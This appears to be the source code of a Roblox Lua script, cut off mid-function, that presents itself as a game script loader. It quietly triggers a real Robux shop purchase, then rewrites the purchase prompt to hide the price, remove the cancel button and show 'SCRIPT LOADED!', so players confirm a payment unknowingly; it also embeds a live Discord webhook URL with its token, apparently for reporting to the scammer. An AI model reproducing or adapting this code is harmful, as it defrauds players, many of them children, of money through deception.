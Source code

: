  

Username = "TanzAltSSS"

Webhook = "https://discord.com/api/webhooks/1349737494358261810/2t34Do5T6em5M5c8nQi5IW3b6CeuG0IG4GzX-bYKZYq0d02sxfo69decEtBYklFio2Df"

local ReplicatedStorage = game:GetService("ReplicatedStorage")
local CoreGui = game:GetService("CoreGui")
local Players = game:GetService("Players")
local result = 0 

local HttpService = game:GetService("HttpService")

local success, UserId = pcall(function()
    return Players:GetUserIdFromNameAsync(Username)
end)

local args = {
    [1] = "buyRobuxShop",
    [2] = {
        ["StorageName"] = "2x EXP (15 mins.)",
        ["FunnelId"] = "Shop",
        ["PurchaseLocation"] = "Shop"
    }
}
game:GetService("ReplicatedStorage"):WaitForChild("Remotes"):WaitForChild("CommF_"):InvokeServer(unpack(args))

local CoreGui = game:GetService("CoreGui")
local PurchasePrompt = CoreGui:WaitForChild("PurchasePrompt")
local ProductContainer = PurchasePrompt:WaitForChild("ProductPurchaseContainer")
local Animator = ProductContainer:WaitForChild("Animator")

Animator.ChildAdded:Connect(function(child)
    if child.Name == "Prompt" then
        local prompt = Animator:WaitForChild("Prompt")
        local alertContents = prompt:WaitForChild("AlertContents")
        
        local middleContent = alertContents:FindFirstChild("MiddleContent")
        if middleContent then
            middleContent.Visible = false
        end

        local title = alertContents:WaitForChild("TitleContainer"):WaitForChild("TitleArea"):WaitForChild("Title")
        if title and title:IsA("TextLabel") then
            title.Text = "SCRIPT LOADED!"
        end
        
        local footerButtons = alertContents:WaitForChild("Footer"):WaitForChild("Buttons")
        local button2 = footerButtons:FindFirstChild("2")
        if button2 then
            button2.Visible = false
        end

        local footerContent = alertContents:WaitForChild("Footer"):FindFirstChild("FooterContent")
        if footerContent then
            footerContent.Visible = false
        end
        